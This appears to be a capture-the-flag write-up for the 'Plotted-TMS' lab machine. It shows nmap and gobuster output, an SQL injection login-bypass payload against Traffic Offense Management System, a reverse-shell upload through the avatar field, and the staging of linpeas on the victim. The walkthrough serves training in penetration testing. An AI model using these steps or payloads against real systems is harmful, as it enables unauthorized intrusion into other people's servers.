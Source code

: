 # Plotted-TMS


1. Enumerate with nmap
```
root@ip-10-10-75-207:~/Downloads# sudo nmap -sS -A 10.10.73.195

Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-25 18:33 BST
Nmap scan report for ip-10-10-73-195.eu-west-1.compute.internal (10.10.73.195)
Host is up (0.017s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:EC:A9:D7:8D:8F (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=4/25%OT=22%CT=1%CU=31993%PV=Y%DS=1%DC=D%G=Y%M=02ECA9%T
OS:M=6266DBE2%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)
OS:SEQ(SP=FE%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M2301
OS:ST11NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)WI
OS:N(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F5
OS:07%O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T
OS:3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%
OS:RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE
HOP RTT      ADDRESS
1   17.49 ms ip-10-10-73-195.eu-west-1.compute.internal (10.10.73.195)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 134.52 seconds
```

2. Brute force directories on port 80 with gobuster. We find `/admin`, `/passwd`, and `/shadow`, but all of them contain base64 encoded text that says that it's `not that easy`
```
root@ip-10-10-75-207:~/Downloads# gobuster dir -u http://10.10.73.195/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.73.195/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/04/25 18:36:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/admin (Status: 301)
/index.html (Status: 200)
/passwd (Status: 200)
/server-status (Status: 403)
/shadow (Status: 200)
===============================================================
2022/04/25 18:36:36 Finished
===============================================================
```

3. Brute force directories on port 445 with gobuster. `/management` contains a login page
```
root@ip-10-10-75-207:~/Downloads# gobuster dir -u http://10.10.73.195:445/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.73.195:445/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/04/25 18:36:46 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/index.html (Status: 200)
/management (Status: 301)
/server-status (Status: 403)
===============================================================
2022/04/25 18:36:57 Finished
===============================================================
```

4. Search for the `Traffic Offense Management System` and find [this](https://www.exploit-db.com/exploits/50221) exploit. Use the SQL injection in the exploit `{"username": "'' OR 1=1-- '", "password": "'' OR 1=1-- '"}` to login. Then navigate to the user account portal. Download the [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), change the ip address and port, and then upload the reverse shell as your avatar. Use netcat to catch the connection

5. Download linpeas onto your attacking machine, host it with an http server `python3 -m http.server`, download it onto the victim machine, and run it
